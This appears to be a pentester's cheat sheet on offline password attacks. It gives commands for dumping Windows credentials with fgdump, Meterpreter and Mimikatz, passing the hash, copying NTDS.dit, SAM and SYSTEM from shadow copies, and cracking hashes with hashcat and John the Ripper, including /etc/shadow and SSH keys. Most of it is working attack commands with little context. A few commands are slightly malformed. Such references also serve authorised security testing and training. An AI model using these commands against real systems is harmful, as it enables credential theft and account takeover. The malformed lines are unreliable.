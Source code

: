 # Offline Attack

## Extracting Password Hashes from Windows

### fgdump

Run fgdump to dump local hash

 ```
 fgdump.exe
 ```

### Meterpreter's Hashdump

```
meterpreter > hashdump
```

### Mimikatz

```
PS C:\temp\mimikatz> .\mimikatz
```

* get debug rights \(this or Local System rights is required for many Mimikatz commands\).
* by default, the Administrators group has Debug rights. Debug still has to be “activated” by running “privilege::debug”.

```
mimikatz # privilege::debug
```

* lists all available provider credentials. This usually shows recently logged on user and computer credentials.
* Services running with account credentials are also dumped using this command.
* Note that only services that are running \(credentials in memory\) can be dumped in this manner.

```
mimikatz # sekurlsa::logonpasswords
```

#### Pass the Hash with Mimikatz

If you can’t crack the hash of a local administrator account you can instead just inject the hash into memory to gain the privileges:

```
sekurlsa::pth /user:Administrator /domain:{domain name} /ntlm:{ntlm hash here} /run:cmd
```

### Volume Shadow Copy Services to copy ntds.dit

```text
cscript vssown.vbs /start
cscript vssown.vbs /create
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\NTDS\NTDS.dit c:\
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SYSTEM c:\
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[X]\Windows\System32\config\SAM c:\
```

## Hash identification

There are generally speaking three pieces of data we can use to identify a hash.

* The length of the hash
* The character set
* Any special characters

We can use hash-identifier to identify the hash algorithm from the hashed password.

`hash-identifier`

## Cracking the Password

### Hashcat

Put the hashed password file \(test.hash\) and dictionary \(rockyou.txt\) in the same directory and execute the below command:

> `hashcat -m 100 test.hash rockyou.txt`  
> `-m`  
> `-m 100`

### John the ripper \(\*\)

Use the program "unshadow" which is included in John the Ripper to convert obtained /etc/passwd and /etc/shadow files to a combined file for John \(e.g. crackme.txt below\)

```
unshadow /etc/passwd /etc/shadow >> crackme.txt
```

Cracking the file generated by unshadow \(**crackme.txt**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

```
john crackme.txt --wordlist=rockyou.txt
```

Convert an encrypted SSH key to a format readable by John

```
ssh2john encrypted-key >> crackme-ssh
```

Cracking the file generated by ssh2john \(**crackme-ssh**\) using the wordlist **rockyou.txt** using a dictionary/wordlist brute-force

```
john crackme-ssh --wordlist=rockyou.txt
```

Crack MD5 hashes that are in a file called hashes using a dictionary/wordlist brute-force

```
john--format=md5 hashes --wordlist=rockyou.txt
```

John configuration file

* Linux

  ```
  john.conf
  ```

* Windows

  ```
  john.ini
  ```

`john.pot` file is where the cracking results stored.

```
john --show [password_file]
```

john.rec is the recovery file in the event of a crash. To restore cracking

```
john --restore
```

